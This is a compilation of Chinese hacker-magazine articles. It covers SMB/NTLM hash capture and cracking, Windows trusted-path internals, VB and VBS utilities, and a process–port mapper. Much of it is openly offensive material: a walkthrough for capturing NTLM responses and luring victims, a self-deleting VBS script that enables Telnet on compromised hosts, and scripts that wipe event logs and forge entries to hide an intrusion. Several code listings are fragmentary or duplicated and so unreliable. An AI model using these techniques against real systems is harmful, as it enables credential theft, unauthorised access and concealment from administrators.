从 NTLM 验证过程中得知，我们是使用本地的用户密码散列对 challenge 进行加密后得到的 LM HASH 和 NTLM HASH（LM 和 NTLM 散列的加密方式不同）。这里，我们只要获得这些东西，就可得到对方的本地密码散列。既然有了对方的本地密码散列，那么获得对方的密码就不成问题了。下面，我们来看一下图4。

这里我们看的是 session setup AndX response NTLMSSP CHALLENGE。在协商完成后，对方会发送 session setup AndX request 要求建立会话（session setup AndX）。这时，我们计算机就会发出 session setup AndX response NTLMSSP CHALLENGE，这里就包含了 challenge。因此，从图4中应该很容易地找到 challenge。

在图4中，注意此行：**NTLM Challenge = 7BB019F06BBC3DF0**。很明显，这里的“7BB019F06BBC3DF0”就是我的计算机发送给对方主机的 challenge，不要放过它，记录下来。

这时，大家回忆一下 NTLM 的验证过程。上面的过程其实就是服务器发送给客户端一个 challenge 的过程。接下来，我们要找的就是客户端返回给服务器的 response 过程了（注：response 中便包含了 LM HASH 和 NTLM HASH）。

从图5中我们得到了 **session setup AndX request, NTLMSSP_AUTH**，这一句绝对不能放过，因为在这里就包含了返回的 response，而在 response 中，就可找到我们需要的 LM HASH 和 NTLM HASH。


图5

选中这行后，打开它。在 SMB 下的 session setup AndX request 数据中，就可发现 LM HASH 和 NTLM HASH。大家仔细看图5，图中的“Lan Manager response”后就是 LM HASH，紧接着，在它下面的“NTLM response”后跟的就是 NTLM HASH。记录下这两个值，OK！现在，我们的 SMB 会话劫持过程基本上就完成了。接下来，我们要做的就是破解工作了。首先，先看看我们抓到的东西：

```text
challenge: 7BB019F06BBC3DF0
LM HASH: A9C65FBC97409F888A5668C5964448A96D23BA827B3566DF
NTLM HASH: 10F2C2F6A1F12E65190673540EEAF359D5AB0A3D3DE594FF8
```

这里，我们将它做成 LC4 可识别的 lc 格式，才可使用 LC4 进行破解，其格式为：

```text
python\administrator:"":A9C65FBC97409F888A5668C5964448A96D23BA827B3566DF:10F2C2F6A1F12E65190673540EEAF359D5AB0A3D3DE594FF8:7BB019F06BBC3DF0
```

前面的“python\administrator”可自己命名，然后另存为 pass.lc。然后打开 LC4，依次选择“Import → Import From .LC File...” （图6）。


图6

然后选择路径，找到刚才保存的 pass.lc，打开，选择好破解方式，点“开始”按钮就可开始计算。由于我使用的密码非常简单，因此很快就被破解出来了（图7）。


图7

整个 SMB 的会话劫持过程就这样完成了。

> **网友注意**
>
> 在使用 Sniffer 的分析过程中，要非常注意，因为一般的 Sniffer 抓到的不一定是一个完整的正常会话过程，其中必定包含其他数据和错误过程。因此，分析时一定要细心，一行一行地分析，一行一行地排除。我也是在排除了 N 多行的错误验证过程后才找到所需要的东西。所以，很多朋友往往不是因为能力问题，而是因为耐心问题。

以上过程已经教给大家了，但在使用时，绝不可能像我这个实验过程这样使用。所以，我们需要欺骗对方。例如，在你的个人 web 上加载代码，使一张图片指向你的主机，这样对方在浏览你 web 的同时，也浏览了你主机上的一张图片。这时，你在主机上进行 sniffer，呵呵！这样一个过程就实现了。具体实现时，还有多种方法，需要大家自己发挥想象力了。

### 经验与问题

从以上过程中不难看出，如果不小心与对方建立了一个 SMB 会话，那么密码被破解几乎是不可避免的。但并不是完全没有办法避免。例如，使用 Kerberos v5 验证方式，这就有效地避免了这个过程。另外，我们还可将密码的强度加强，如果你的机器中有重要资料，又害怕遇到这种 SMB 劫持攻击，建议把密码设置在 14 位以上。除了这些，还要说一下系统本身的不安全因素。

说过，虽然 NTLM 对 LM 验证进行了加强，但实际上并不能很好地解决 LM 验证带来的问题。这是因为微软使用的 NTLM 是向后兼容的，因此，在使用 NTLM 验证时，总会将 LM 验证和它一起使用。这样，即使 NTLM 再怎么安全，也会由于 LM 验证的不安全因素而使其安全体系彻底崩溃。而且，对于 LM 散列来说，由于其不区分密码的大小写，在破解上就减少了相当大的难度。所以，往往先是从 LM 散列的破解上下手，得到 LM 密码后，就可在一个很小范围内对密码进行猜解了。避免这种情况的方法是将密码长度设置在 14 位以上……

密码强度上达到了要求（注意：该法只能在 Win2k 及其后继版本中使用）。关于 SMB 会话劫持就说这么多了，最后，提供给大家一些资料。了解 SMB 会话劫持的关键在于对 SMB 会话过程的了解，所以这里推荐两篇 SMB 会话相关的文章（是两篇 RFC 文档）：

- RFC 1001（PROTOCOL STANDARD FOR A NetBIOS SERVICE ON A TCP/UDP TRANSPORT: CONCEPTS AND METHODS）；下载地址为 http://www.faqs.org/rfcs/rfc1001.html
- RFC 1002（PROTOCOL STANDARD FOR A NetBIOS SERVICE ON A TCP/UDP TRANSPORT: DETAILED SPECIFICATIONS）；下载地址为 http://www.faqs.org/rfcs/rfc1002.html


计算机系统中，用户在一般情况下并不直接与内核打交道，中间有一层应用层作为接口，作用在用户与内核之间。尽管这种设计能保护内核不会被用户随意修改、窥测，但也随之带来了安全问题。由于应用层并不能被完全信任，因此在操作系统安全功能中，往往会提供可信路径这一功能（这也是橘皮书 B2 级的安全要求）。

### 一、可信路径

可信路径（trusted path）是什么样的概念呢？顾名思义，它是这样一种功能的实现：避开应用层，在用户与内核之间开辟一条直接的可信任的交互通道。真的有必要那么麻烦？在进行高风险操作时使用可信路径与内核互动是很有必要的，例如防止键盘记录型木马（Trojan horse）窃取敏感口令。

## 二、SAK 序列键

你一定对“Ctrl+Alt+Del”这三键序列极有印象。在 DOS 年代，我们用它快速重启机器；在 Windows 9X 时代，可以用它查看进程。到了 WinNT/2000/XP，微软在文档中称“Ctrl+Alt+Del”为 SAS（Secure Attention Sequence），并将之列为安全功能的一部分。

Linux 环境下也有类似的按键序列可用。Linux 下的安全留意键（Secure Attention Key，SAK）是一组键，在 x86 平台是“Alt+SysRq+K”，在 SPARC 下是“Alt+STOP+K”。可通过 `/proc/sys/kernel/sysrq` 配置启用，相关实现可参考内核源码 `drivers/char/sysrq.c` 与 `drivers/char/tty_io.c`。

SAK 序列键其实是被称作“magic sysrq key”中的一组。该组按键通常采用“Alt+sysrq+...”格式。文档《MAGIC SYSRQ KEY DOCUMENTATION v1.32》中说明，例如“Alt+sysrq+i”表示向除 init 外的所有进程发送 SIGKILL。“Alt+sysrq+k”的解释是：如果你想确保登录前没有试图窃取密码的特洛伊木马程序运行在当前控制台上，那么 SAK 非常有用；它能杀死当前控制台上的全部应用程序，从而帮助你确认看到的登录画面来自 init 而非木马程序。

当你按下这组键时，也就引发了特定事件。系统会进入内核态并处理该请求：若扫描码对应 SAK，则内核找到并触发 SAK 终端，创建可信路径并终止相关终端上的非内核进程。这样可在重新登录前清理潜在恶意进程，获得更放心的交互环境。

> 注意：文中补充了与 TCB（Trusted Computing Base，可信计算基）相关的说明，强调可信路径与系统安全边界的关系。

## 黑客研究院

> “SAK”系列前段技术分析选登……（顶部灰底导读框内容）

### 三、在 NT 系列 Windows 操作系统中可信路径的情况

刚刚我们已经了解了 Linux 操作系统下可信路径的相关知识，但是我想已经有不少朋友更想了解在 Windows NT/2000/XP 下可信路径的情况。Now, let's go!

#### 1. 在 NT 系列 Windows 操作系统中可信路径的引发方法

把 Ctrl+Alt+Del 这三个键同时按下，这称为标准 SAS（Secure Attention Sequence）……当系统检测到标准 SAS 序列时，由 Winlogon 进程将系统切换到受控状态。

- 应用程序桌面（\Windows\WinSta0\Default）
- Winlogon 桌面（\Windows\WinSta0\Winlogon）
- 屏幕保护桌面（\Windows\WinSta0\ScreenSaver）

在安全策略上，只有 Winlogon 进程可访问 Winlogon 桌面，其它桌面仅允许用户及其所属进程访问……这就是 Windows 下可信路径实现的重要机制。

GINA（Graphical Identification and Authentication）在 Windows 中默认由 msgina.dll 实现，可通过注册表 `Winlogon\GinaDLL` 替换为自定义 GINA……该机制本身更偏向可扩展功能，而非直接漏洞。

（右栏上部）介绍 Invisible Keylogger Stealth（IKS）：可记录密码并写入 iks.dat；其实现并非直接击败可信路径，而是破坏目标机器 TCB 或通过管理权限与驱动相关能力完成。

### 2. NT 系列 Windows 操作系统的启动过程中关于 SAS 的定义过程

初始化时，GINA 收到 WlxUseCtrlAltDel 通知；默认使用 Ctrl+Alt+Del 作为标准 SAS。若需要自定义 SAS，需实现相关 HOOK 并通过 WlxSasNotify 报告 SAS 事件；同时可通过 WlxDisplaySASNotice 展示提示界面。

### 四、击败可信路径的方法

在类 UNIX 系统中，若可信路径触发会终止用户进程，攻击通常需内核级 ROOTKIT 才可能长期驻留。对 WinNT 而言，屏蔽 Ctrl+Alt+Del 往往只能干扰操作，不等于真正击败可信路径；若要影响 Winlogon，需更高权限与更深层系统控制。

### 五、尾声

可信路径在主流系统中的实现仍在演进。Linux/UNIX 与 Windows 各有历史包袱与改进空间；随着系统安全能力提升，可信路径机制的可靠性也将持续增强。

上次看了 GE126 的一篇文章，NND，就是经典。上面有一段话引起了我的深思：“2001 年 12 月 X+3 日晚上，200 多 M 的密码档跑完了，结果在硬盘上生成了一个 1.12G 大小的注册信息文本文件。如此大的密码文件，不要说在里面找和某竹匹配的加密后的密码，就是打开这个文件就是个难题，试试 WORD，结果没有响应……”难道我们就这样放弃吗？不，GE126 最后想到了文件切割。哈哈，终于回到了这次的主题。

每一个黑客都有自己的密码档，密码档的大小直接影响了入侵的成功与否。那么怎样选择好的密码档呢？有人说要小而精，有人说要全。我极力推荐第一种，但有时候往往对方的密码并不在你的密码档里，就这样放弃？NO，回答是坚定的。我们不得不选择第二种，哈哈，结果重复上面的画面：）现在你知道“文件切割”出现的原因吧。今天由我来帮大家学做一个文件切割组合工具。


### 一、编程原理

文件切割的原理很简单，就是将目标文件用二进制读写的方法，精确地、连续地保存为指定大小的文件。当然，文件还原的方法很多，在 DOS 下有一个很有用的命令：copy /b。这个命令的格式为“copy /b 需要组装的文件名1 + 需要组装的文件名2 组装后的文件名”，就可以轻易地实现文件的还原。

那么每次都要用 COPY 命令来做的话，无疑又是一个很伤脑筋的事，怎么办呢？对了，用批处理。我们为什么不在切割的时候自动生成一个批处理呢？以后要组装只要将切割后的文件同批处理放在一起，只要点击批处理就自动完成组装。好了，废话少说，开工啦！

### 二、实战篇

启动 VB6.0，新建一个标准 EXE 工程，在窗体上添加驱动器列表（Drive）、目录列表（Dir）、文件列表，若干标签和按钮控件，完成后如图1所示。


图1

调整它们到合适的位置。进入代码编译窗口，输入如下代码：

```vb
Option Explicit
Dim myGO() As Byte
' 定义二进制动态组

Private Sub Command1_Click()
End Sub
```

```vb
Private Sub Command3_Click()
    On Error Resume Next
    splitit Lab1.Caption, CInt(Text1.Text), Text2.Text & File1.FileName
End Sub

' 其中 splitit 是切割函数
' splitit 一共 3 个参数，分别是被切割文件名、分割后的文件长度、分割后保存的文件名
' CInt 是 VB 内置函数，它的作用是将一个表达式转化为整数

Private Sub Dir1_Change()
    File1.Path = Dir1.Path
End Sub

Private Sub Drive1_Change()
    ' 屏蔽驱动器错误
    On Error GoTo e
    Lab1.Caption = Lab1.Tag
    Dir1.Path = Drive1.Drive
e:
End Sub

Private Sub File1_Click()
    If File1.ListCount <> 0 Then
        If Right(Dir1.Path, 1) <> "\" Then
            Lab1.Caption = Dir1.Path & "\" & File1.FileName
            Text2.Text = Dir1.Path & "\"
        Else
            Lab1.Caption = Dir1.Path & File1.FileName
            Text2.Text = Dir1.Path
        End If
        ' 正确获得选中的完整文件路径、名称
        Lab1.ToolTipText = "被分割文件长度（字节）" & FileLen(Lab1.Caption)
        ' 提示被分割的文件长度
    End If
End Sub

Private Sub Form_Load()
    Lab1.Tag = Lab1.Caption
End Sub

Public Function splitit(sfile As String, splitsize As Long, sname As String) As Boolean
    ' ...（后续函数实现）
```

## 黑客编程

```vb
Dim savename As String, saver As String, saven As String
Dim ih As Integer, im As Integer
Dim fnum As Integer, fnum1 As Integer, mybat As String
split1 = True
On Error GoTo cleanup
Dim countit As Long, loopit As Long, fileslen As Long
fileslen = FileLen(sfile)
If fileslen <= splitsize + 1 Then
    split1 = False
    MsgBox "被分割文件小于分割后文件大小 请重新设置!", vbExclamation + vbOKOnly
    Exit Function
End If
fnum = FreeFile
Open sfile For Binary As #fnum
' 用二进制打开被分割的文件
...
For loopit = 1 To countit
    savename = oname & "." & Format(loopit, "00#")
    ...
    Open savename For Binary As #fnum1
    Put #fnum1, 1, myGO
    Close #fnum1
    Frame3.Caption = "正在处理:" & savename & " " & FormatPercent(loopit / countit)
    DoEvents
Next
```

```vb
Open oname & ".BAT" For Output As #fnum1
Print #fnum1, mybat
Close #fnum
MsgBox "文件分割已经成功完成!" & vbNewLine & "共生成:" & countit & "个分割文件" & vbNewLine & "生成自动组装文件:" & oname & ".BAT", vbOKOnly + vbExclamation
Exit Function
cleanup:
MsgBox "错误提示信息:" & Err.Description, vbOKOnly + vbExclamation
End Function

Private Sub Form_Unload(Cancel As Integer)
End
End Sub
```

好了，到这里我们已经完成了全部工作，最后程序运行如图2所示。


图2

按照提示，我们发现已经成功完成分割，并且生成了 ScanVBSKJ-hui.EXE.BAT 批处理文件。要还原原文件，只要双击它就完成了。还原画面如图3所示。


图3

好了，到这里我们已经完成了文件分割与还原的全部工作。这只是一个雏形，要想获得更强大的功能，还需要大家去完善它。有什么问题也可以来我的网站提出（http://www.20nt.net）。源文件请在杂志光盘“相关栏目”里查找。

## 用VBS脚本“敲”开Win2k的入门

小二

入侵的很多时候我们为了安全起见，会利用肉鸡当跳板。那你会用什么方法呢？或许你会说：要么就是在得到管理员账号的情况下用 open telnet 得到 shell，要么就是上传大名鼎鼎的 ntlm.exe 来改变肉鸡系统的验证模式……今天，小二我会跟大家分享一种新的方法——用 VBS 脚本敲开 Win2k 的大门。

> **注意**
>
> WSH（Windows Script Host）是微软提供的脚本宿主环境，可执行 VBScript/JScript 等脚本。通常将脚本保存为 `.vbs` 文件，再通过 `wscript.exe` 或 `cscript.exe` 运行。

- 1. 在“桌面”单击右键，在快捷菜单中选择“新建”→“文本文档”。
- 2. 在文档中输入脚本代码并保存。

```vb
On Error Resume Next
SET WSHSHELL = WSCRIPT.CREATEOBJECT("WSCRIPT.SHELL")
WSHSHELL.REGWRITE "HKLM\Software\Microsoft\TelnetServer\1.0\NTLM", 1, "REG_DWORD"
WSHSHELL.RUN "NET START TELNET", 0
```

如果管理员把注册表相关项锁定，那么修改注册表的代码可能不起作用，这时需要先处理注册表工具禁用项。

```vb
bKey = wshShell.RegRead("HKEY_USERS\.DEFAULT\Software\Microsoft\Windows\CurrentVersion\Policies\System\DisableRegistryTools")
If bKey = 1 Then
  wshShell.RegWrite "HKEY_USERS\.DEFAULT\Software\Microsoft\Windows\CurrentVersion\Policies\System\DisableRegistryTools", 0, "REG_DWORD"
End If
WSHSHELL.REGWRITE "HKLM\Software\Microsoft\TelnetServer\1.0\NTLM", 1, "REG_DWORD"
```

上面代码通过判断语句检查并修改相关注册表值，然后继续执行后续语句。随后作者讨论了清理痕迹（如删除脚本文件）的问题。

```vb
SET FSO = WSCRIPT.CREATEOBJECT("SCRIPTING.FILESYSTEMOBJECT")
FSO.DELETEFILE(WSCRIPT.SCRIPTFULLNAME)
WSCRIPT.QUIT
```

将文件保存为 `.vbs` 后上传到目标目录，通过 `at \\xxx.xxx.xxx.xxx time 文件名.vbs` 等方式触发执行。执行后可进行 TELNET 连接。

- 3. 把脚本上传到目标主机可执行目录并通过计划任务触发。
- 4. 防范建议：若业务依赖不大，可禁用或删除 `wscript.exe` 以降低 VBS 脚本风险。

## 黑客编程

### 简单密码机制的秘密

陈小宇

我在2002年第七期的《黑客X档案》中介绍了美萍网管大师存在密码泄漏的问题，其实要解决这个问题是十分简单的，只要会一点编程的初学者都能够解决这个问题。本文在这里使用VB6进行编写，原理是通过异或运算把数字转换为ASCII码存放在文件中。首先创建窗体及相关标签、文本框和按钮控件，如图1所示。


图1

当程序启动时执行的代码。

```vb
Dim ok$
Private Sub frmPasswordDemo_Load()
    txtPassword.PasswordChar = "*"
    txtOPassword.PasswordChar = "*"
    txtNPassword1.PasswordChar = "*"
    txtNPassword2.PasswordChar = "*"
    butChange.Enabled = False
    txtOPassword.Enabled = False
    txtNPassword1.Enabled = False
    txtNPassword2.Enabled = False
    txtPassword.Text = ""
End Sub
```

```vb
' 成功时文本框设为空
Dir("c:\windows\1")
If ... Then
    FileCopy "c:\windows\1", App.Path & "\1"
End If
End Sub
```

上面是当程序启动时加载的设置。只有 butInput 输入密码按钮、butQuit 退出按钮和 txtPassword 密码接收框可用。首次进入时密码为空，所以直接点击“输入密码”。当你点击“退出”按钮时将执行下列代码：

```vb
Private Sub butQuit_Click()
    youtrueexit = MsgBox("你真的要退出密码演示程序吗?", vbYesNo, "退出系统")
    If youtrueexit = vbYes Then
        End
    End If
End Sub
```

下面将是验证密码的关键代码，当点击“输入密码”按钮时程序将执行下列代码。

```vb
Private Sub butInput_Click()
    On Error GoTo aaa
    Open App.Path & "\1" For Input As #1
    ...
End Sub
```

打开存放密码的文件“1”，其中 `App.Path` 指程序当前目录，`Input` 指文件输入方式，`#1` 为文件通道。该文件需存在于程序目录下，可先创建内容为空的新文件“1”。

```vb
Do Until EOF(1)
    Line Input #1, chenxiaoyu$
Loop
le = Len(chenxiaoyu$)
If le < 0 Or le > 20 Then
    GoTo error1
End If
```

下面这段是密码转换的关键，它把文件“1”中的加密密码取出，还原为原始密码，再与输入密码比较。首次进入程序密码为空，因此不会对空密码进行转换。

```vb
Dim n(20)
For i = 1 To le
    ...
Next i
```

```vb
If le > 0 Then
    n(i) = Asc(Mid(chenxiaoyu$, i, 1))
    n(i) = Chr(n(i) Xor (i + le))
    ok$ = ok$ & n(i)
Next
...
If txtPassword.Text = ok$ Then
    butChange.Enabled = True
    txtOPassword.Enabled = True
    txtNPassword1.Enabled = True
    txtNPassword2.Enabled = True
Else
    MsgBox("密码错误! 它应在0到20位之间,请输入正确的密码")
End If
Close #1
End Sub
```

下面是点击“改变密码”按钮时执行的代码。

```vb
Private Sub butChange_Click()
Dim n(20)
If txtOPassword.Text = ok$ Then
    If txtNPassword1.Text = txtNPassword2.Text Then
        c$ = txtNPassword1.Text
        le = Len(c$)
        If le > 20 Or le < 0 Then
            MsgBox("密码输入错误，它应在1位到20位之间")
            txtNPassword1.Text = ""
            txtNPassword2.Text = ""
            txtNPassword1.SetFocus
        Else
            For i = 1 To le
                n(i) = Asc(Mid(c$, i, 1))
                n(i) = Chr(n(i) Xor (i + le))
                num$ = num$ & n(i)
            Next
        End If
    End If
End Sub
```

“xor”是异或运算符，是把每一个 ASCII 码用来异或一个固定的数，这里用的是 `(i+le)`，即当前字符在密码中的位置与密码总长度组合后的值。

当然，你如果认为这样也容易被猜出，还可以在 `(i+le)` 中增加一个随机量，例如增加 `rndpass` 变量并写入随机数，再存入文件以便解密时读取。这样异或的固定数变成 `(i+le+rndpass)`，密码就更安全了。

```vb
Open App.Path & "\1" For Output As #1
Print #1, num$
Print MsgBox("密码更改成功!")
Close
```

下面这段是防止密码文件损坏或被人为更改而添加的。程序启动时自动把其它目录下的备份密码复制过来，也可以比较两个文件内容，相同才允许进入程序。

```vb
FileCopy App.Path & "\1", "c:\windows\1"
...
Else
    Print MsgBox("密码验证错误, 你不能修改密码, 请重新输入!", "错误!")
End If
End Sub
```

通过上面的介绍，你对密码程序的编写应该有了初步认识。将代码稍作修改即可加入程序并与其它模块组合成完整的密码设置功能。


图2

这个密码程序的介绍，主要是针对常见漏洞进行改进说明。绝对安全并不存在，但通过修补这些问题可以显著提高程序安全性，减少被入侵的风险。


#### 蛮牛

怎么才能知道程序使用了哪个端口？进程和端口的关联查询是一个非常有用的功能，你可以清楚地知道哪些程序在使用哪些端口，对于查杀木马很有帮助。我们虽然可以使用任务管理器浏览进程列表，使用 Netstat 查看端口的使用状况，却没有一个命令可以直接关联进程和端口（WinXP 上增加了新的 Netstat 功能，支持直接查看端口进程状况），在网络上也有见一些软件，但是都不是很好用，而且没有源代码。

#### 实现的方法

- 1. 枚举系统的进程
- 2. 判断进程是否是 SOCKET 句柄
- 3. 复制句柄并得到端口号
- 4. 根据句柄得到执行文件名称

#### 部分源程序

### 1、函数声明：

```pascal
TfnZwQuerySystemInformation := function(...): DWORD; stdcall;
...
TfnZwOpenSection := function(...): DWORD; stdcall;
```

tag 在 NTDDK 中定义了常量 `SYSTEM_INFORMATION_CLASS`，其中，`SystemHandleInformation` 是用来得到所有系统句柄；第二个参数是一个指针，这个指针用来返回系统句柄列表；在调用 `ZwQuerySystemInformation` 函数之前，必须为这个指针分配足够的内存空间，否则函数调用会出错；第三个参数是指定你为 `HandleList` 所分配的内存空间大小，单位是 byte；第四个参数是 `ZwQuerySystemInformation` 返回的 `HandleList` 的大小；如果 `ZwQuerySystemInformation` 函数调用成功，返回值将是 0，否则可以使用 `GetLastError()` 获得详细的错误代码。

```pascal
TfnZwQueryObject := function(...): DWORD; stdcall;
TfnZwDuplicateObject := function(...): DWORD; stdcall;
TfnZwOpenProcess := function(...): DWORD; stdcall;
TfnZwOpenSection := function(...): DWORD; stdcall;
```

```pascal
TfnZwOpenFile := function(...): DWORD; stdcall;
TRtlCreateQueryDebugBuffer := function(...): DebugBuffer; stdcall;
TRtlQueryProcessDebugInformation := function(...): DWORD; stdcall;
TRtlDestroyQueryDebugBuffer := function(...): DWORD; stdcall;

// 用法
DebugBufferP := RtlCreateQueryDebugBuffer(0, False);
if (RtlQueryProcessDebugInformation(...)) then
begin
  ...
end;
```

```pascal
begin
  result := 0;
  // exit;
end;

if (DebugBufferP <> nil) then // 释放内存。
begin
  RtlDestroyQueryDebugBuffer(DebugBufferP);
  result := rc;
  exit;
end;
```

```pascal
rs := SizeOf(TSystemHandleInformation) + SizeOf(TSystemHandleTableEntryInfo) * (n - 1);
ReallocMem(fInfo, rs); // 重新分配内存

rv := fnZwQuerySystemInformation(SystemHandleInformation, fInfo, rs, rs);
n := n * 2;
until rv <> STATUS_INFO_LENGTH_MISMATCH;

if rv <> 0 then
begin
  ReallocMem(fInfo, 0);
  RaiseLastOSError;
end
else
begin
  n := (fInfo^.NumberOfHandles + $100) div $100 * $100;
  rs := SizeOf(TSystemHandleInformation) + SizeOf(TSystemHandleTableEntryInfo) * (n - 1);
  ReallocMem(fInfo, rs);
end;
```

### 2、载入函数：

```pascal
modNTDLL := LoadLibrary('ntdll.dll');
fnZwQuerySystemInformation := GetProcAddress(modNTDLL, 'ZwQuerySystemInformation');
fnZwQueryObject := GetProcAddress(modNTDLL, 'ZwQueryObject');
fnZwDuplicateObject := GetProcAddress(modNTDLL, 'ZwDuplicateObject');
fnZwOpenProcess := GetProcAddress(modNTDLL, 'ZwOpenProcess');
fnZwOpenSection := GetProcAddress(modNTDLL, 'ZwOpenSection');
fnZwOpenFile := GetProcAddress(modNTDLL, 'ZwOpenFile');
RtlCreateQueryDebugBuffer := GetProcAddress(modNTDLL, 'RtlCreateQueryDebugBuffer');
RtlQueryProcessDebugInformation := GetProcAddress(modNTDLL, 'RtlQueryProcessDebugInformation');
RtlDestroyQueryDebugBuffer := GetProcAddress(modNTDLL, 'RtlDestroyQueryDebugBuffer');

// 获得系统句柄
if not Assigned(fInfo) then
  n := $1000
else
  n := (fInfo^.NumberOfHandles + $100) div $100 * $100;
repeat
  ...
```

上面是部分程序代码，如果需要全部源代码可看光盘。


## 黑客编程

## VBS脚本在系统安全中的八则妙用

VBS脚本病毒的大量流行使我们对VBS的功能有了一个全新的认识，现在大家对它也开始重视起来。VBS代码在本地是通过 Windows Script Host（WSH）解释执行的。VBS脚本的执行离不开WSH，WSH是微软提供的一种基于32位Windows平台的、与语言无关的脚本解释机制，它使得脚本能够直接在Windows桌面或命令提示符下运行。利用WSH，用户能够操纵WSH对象、ActiveX对象、注册表和文件系统。在Windows 2000下，还可用WSH来访问Windows NT活动目录服务。

用VBS编写的脚本程序，在窗口界面中由 wscript.exe 文件解释执行，在字符界面由 cscript.exe 文件解释执行。wscript.exe 是一个脚本语言解释器，正是它使得脚本可以被执行，就像批处理一样。关于VBS大家一定比我熟悉多了，所以不再废话，直接进入主题，看看我总结的VBS在系统安全中的八则妙用吧。

### 一、给注册表编辑器解锁

用记事本编辑如下内容：

```vb
DIM WSH
SET WSH=WSCRIPT.CreateObject("WSCRIPT.SHELL")
WSH.POPUP("解锁注册表编辑器!")
WSH.RegWrite "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System\DisableRegistryTools",0,"REG_DWORD"
WSH.POPUP("注册表解锁成功!")
```

保存为以 `.vbs` 为扩展名的文件，使用时双击即可。

### 二、关闭Win NT/2000的默认共享

用记事本编辑如下内容：

```vb
Dim WSHShell
Set WSHShell=CreateObject("WScript.Shell")
Dim fso,dc
Set fso=CreateObject("Scripting.FileSystemObject")
Set dc=fso.Drives
For Each d in dc
  WSHShell.Run("net share " & d.DriveLetter & "$ /delete")
Next
WSHShell.Run("net share admin$ /delete")
WSHShell.Run("net share ipc$ /delete")
```

```vb
Next
WSHShell.Run("net share admin$ /delete")
WSHShell.Run("net share ipc$ /delete")
```

现在来测试一下，先打开 cmd.exe，输入 `net share` 命令就可以看到自己机子上的共享。双击执行 stopshare.vbs 后，会看见窗口一闪而过，然后再在 cmd 里输入 `net share` 命令，这时候没有发现共享列表了。

### 三、显示本机IP地址

有许多时候，我们需要知道本机的IP地址，使用各种软件虽然可以办到，但用VBS脚本也非常的方便。用记事本编辑如下内容：

```vb
Dim WS
Set WS=CreateObject("MSWinsock.Winsock")
IPAddress=WS.LocalIP
MsgBox "Local IP=" & IPAddress
```

将上面的内容保存为 ShowIP.vbs，双击执行即可得到本机IP地址。

### 四、利用脚本编程删除日志

入侵系统成功后，黑客做的第一件事便是清除日志。如果以图形界面远程控制对方机器或是从终端登录进入，删除日志不是一件困难的事。由于日志也是作为一种服务运行，但不同于 http、ftp 这样的服务，可以在命令行下先停止、再删除，在命令行下用 `net stop eventlog` 是不能停止的，所以有人认为在命令行下删除日志是很困难的。实际上不是这样，比如说利用脚本编程中的WMI就可以删除日志，而且非常的简单方便。源代码如下：

```vb
strComputer="."
Set objWMIService = GetObject("winmgmts:" _
 & "{impersonationLevel=impersonate,(Backup)}!\\" & strComputer & "\root\cimv2")
Dim mylogs(3)
mylogs(1)="application"
mylogs(2)="system"
mylogs(3)="security"
For Each logs in mylogs
 Set colLogFiles=objWMIService.ExecQuery _
 ("Select * from Win32_NTEventLogFile where LogFileName='"&logs&"'")
 For Each objLogfile in colLogFiles
  ' ...
 Next
Next
```

```vbscript
objLogFile.ClearEventLog()
Next
'next
```

将上面的代码保存为 `clearevent.vbs` 文件即可。在上面的代码中，首先获得 object 对象，然后利用其 `ClearEventLog()` 方法删除日志。建立一个数组：application、security、system，如果还有其他日志也可以加入数组。然后用一个 `For` 循环，删除数组中的每一个元素，即各个日志。

### 五、利用脚本伪造日志

删除日志后，任何一个有头脑的管理员面对空空的日志，马上就会反应过来被入侵了，所以一个聪明的黑客也要学会如何伪造日志。利用脚本编程中的 `LogEvent` 方法创建日志非常简单，请看下面的代码：

```vbscript
Set ws = WScript.CreateObject("Wscript.Shell")
ws.LogEvent 0, "write log success"   ' 创建一个成功执行日志
```

将上面的代码保存为 `createlog.vbs` 即可。这段代码很容易理解，首先获得 wscript 的一个 shell 对象，然后利用 shell 对象的 `LogEvent` 方法。`LogEvent` 的用法：`LogEvent eventtype, "description" [, remote system]`，其中 eventtype 为日志类型，可以使用的参数如下：0 代表成功执行，1 执行出错，2 警告，4 信息，8 成功审计，16 故障审计。所以上面代码中，把 0 改为 1、2、4、8、16 均可，引号中的内容为日志描述。利用这种方法写的日志有一个缺点，即只能写到应用程序日志，而且日志来源只能为 WSH，即 Windows Scripting Host，所以不能起太多的隐蔽作用，在此仅供大家参考。

### 六、禁用开始菜单选项

用记事本编辑如下内容：

```vbscript
Dim ChangeStartMenu
Set ChangeStartMenu = WScript.CreateObject("WScript.Shell")
RegPath = "HKCR\Software\Microsoft\Windows\CurrentVersion\Policies\"
Type_Name = "REG_DWORD"
Key_Data = 1

StartMenuRun = "NoRun"
StartMenuFind = "NoFind"
StartMenuClose = "NoClose"

Sub Change(Argument)
  ChangeStartMenu.RegWrite RegPath & Argument, Key_Data, Type_Name
  MsgBox("Success!")
End Sub
```

```vbscript
Call Change(StartMenuRun)    ' 禁用“开始”菜单中的“运行”功能
Call Change(StartMenuFind)   ' 禁用“开始”菜单中的“查找”功能
Call Change(StartMenuClose)  ' 禁用“开始”菜单中的“关闭系统”功能
```

将以上代码保存为 `ChangeStartMenu.vbs` 文件，使用时双击即可。

### 七、执行外部程序

用记事本编辑如下内容：

```vbscript
Dim objShell
Set objShell = WScript.CreateObject("WScript.Shell")
iReturn = objShell.Run("cmd.exe /C set var=world", 1, TRUE)
```

保存为 `.vbs` 文件即可。在这段代码中，我们首先设置了一个环境变量，其名为 var，而值为 world，用户可以使用 `%ComSpec%` 来代替 `cmd.exe`，并且可以把命令 `set var=world` 改成其他的命令，这样就可以使它运行任意的命令。

### 八、重新启动指定的 IIS 服务

用记事本编辑如下内容：

```vbscript
Const ADS_SERVICE_STOPPED = 1
Set objComputer = GetObject("WinNT://MYCOMPUTER,computer")
Set objService = objComputer.GetObject("Service", "MYSERVICE")
If (objService.Status = ADS_SERVICE_STOPPED) Then
  objService.Start
End If
```

将它以 `startsvc.vbs` 为名保存在 C 盘根目录。并通过如下命令执行：`cscript c:\startsvc.vbs`。运行后，经你指定的 IIS 服务项将被重新开启。

